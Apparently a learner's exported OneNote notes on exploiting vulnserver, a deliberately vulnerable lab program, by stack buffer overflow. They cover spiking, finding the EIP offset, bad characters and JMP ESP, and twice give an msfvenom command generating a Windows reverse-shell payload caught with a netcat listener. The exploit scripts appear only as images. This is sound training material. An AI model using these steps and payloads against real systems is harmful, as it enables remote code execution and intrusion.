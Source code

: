 > [!caution] This page contained a drawing which was not converted.   

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-617e9c2935574cb9aeb4422d4198fc23!1-5CC9E121EFE9768B!6230/$value)

**Spiking****-**sending a bunch of random characters to a program to see if you can break it.  
**Ex script****:**
 
```
s_readline();  
s_string("STATS ");  
s_string_variable("0");

Want to control the EIP value  
The x86 processor maintains an instruction pointer (EIP) register that is a 32-bit value indicating the location in memory where the current instruction starts. 

Want to control the EIP value

msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
EXITFUNC=thread (makes exploit more stable)
-f (for file type) ; export this into c
-a (for architecture) ; x86
-b (for bad characters) "\x00" 
Resulting payload. Copy Pasta into the python script.

Set up netcat listener (based on msfvenom exploit)
Next run vulnserver.exe as administrator. Don't need immunity.

```
 ![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-3a5d7c7e24594f40b78df6ca56d0f5a8!1-5CC9E121EFE9768B!6230/$value)  
![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-45f6fd3f022448a38614d4925ae0c980!1-5CC9E121EFE9768B!6230/$value)  
![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-04a69470e344451eafd517ab663e552f!1-5CC9E121EFE9768B!6230/$value)  

**Part 1: Finding the offset:**  
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
 ![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-a182a1e283f54934a0a918cf52f64a7b!1-5CC9E121EFE9768B!6230/$value)

Want to control the EIP value  
**The x86 processor maintains an instruction pointer** **(EIP)** **register that is a 32-bit value indicating the location in memory where the current instruction starts.**

**Part 2: Finding the offset:**  
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
 ![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-a182a1e283f54934a0a918cf52f64a7b!1-5CC9E121EFE9768B!6230/$value)

Want to control the EIP value

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-1c305bc2cae2476280eb20b768af8686!1-5CC9E121EFE9768B!6230/$value) ![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-625204350cc9420a95841a156a40dffd!1-5CC9E121EFE9768B!6230/$value)

**Notice: Exact offset is 2003 (In other words, think if you send 2003 "A's" and then 4 "B's" the 4 B's would overwrite the EIP register. This means we control the program.**
 
# Overwriting EIP:

**Run this Script:**
 ![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-0281488adfe34db3b759ea68de9377dd!1-5CC9E121EFE9768B!6230/$value)  

**Program response: (EIP variable is just the 4 B's we sent because the EBP variable was overflowing with AAAAAAAA)**

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-bebb62762aef473fba4792fe0d209fa5!1-5CC9E121EFE9768B!6230/$value)  

Finding Bad Characters:
 
# **Resource:** [https://github.com/cytopia/badchars](https://github.com/cytopia/badchars)
 
What are Bad Characters?
 
Characters such as \r , \n , / and ? can cause the line that's being parsed to truncate prematurely and fail to overflow the buffer, or lead to a 404 error instead of calling the vulnerable function. Characters being converted between upper and lower case is another example that will mess with shell code.
 ![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-13d1131945974131afa1d72cf3b39e9e!1-5CC9E121EFE9768B!6230/$value)  

Run bad characters > In immunity debugger right click the ESP value > follow in dump.
 ![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-b553ec15f7e243a8a26f5404955c2d25!1-5CC9E121EFE9768B!6230/$value)  

Example:

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-c8681bdd8aab4acfb43810a1ed48d075!1-5CC9E121EFE9768B!6230/$value)  

Import mona.py into immunity debugger and call the module with !mona modules

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-b2675ddc8adb45f09325691b3124a817!1-5CC9E121EFE9768B!6230/$value)  

Back in Kali: start nasm shell to look for "opt code equivalent"

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-0c9665c055e444038d55663ba16daba2!1-5CC9E121EFE9768B!6230/$value)  

nasm > JMP ESP

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-bb3ab9d4a1024bceade05c0264b5fd79!1-5CC9E121EFE9768B!6230/$value)  
![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-c1f9e020aa6d4916a93a9d2e3974eaba!1-5CC9E121EFE9768B!6230/$value)

Results after running

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-8b259e63fded4b3f8913cf09a993624e!1-5CC9E121EFE9768B!6230/$value)  
![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-fe8b43cf0c5441fbadc4dc552009b9ea!1-5CC9E121EFE9768B!6230/$value)

Set a breakpoint by hitting (alt + F2)-so that we can overwrite the EAP.
 
Run findtherightmodule.py script & notice the result:

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-a61cfbec866342bd8e9936a94801c266!1-5CC9E121EFE9768B!6230/$value)

We hit the breakpoint and overode the EIP value:

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-ba696bb71aab4be4ac43c9f00693cf12!1-5CC9E121EFE9768B!6230/$value)

Now just need to write the shell code!
 
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

- EXITFUNC=thread (makes exploit more stable)
- -f (for file type) ; export this into c
- -a (for architecture) ; x86
- -b (for bad characters) "\x00"

Resulting payload. Copy Pasta into the python script.

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-97f54c965da34173aee6bc2b19610b00!1-5CC9E121EFE9768B!6230/$value)   ![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-f9c200b3a7834349a32f1bf8e6b6c187!1-5CC9E121EFE9768B!6230/$value)  

Set up netcat listener (based on msfvenom exploit)

![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-8a2b646ad4e245aab350d6a59931a66c!1-5CC9E121EFE9768B!6230/$value)

Next run vulnserver.exe as administrator. Don't need immunity.
 
Note: Payload size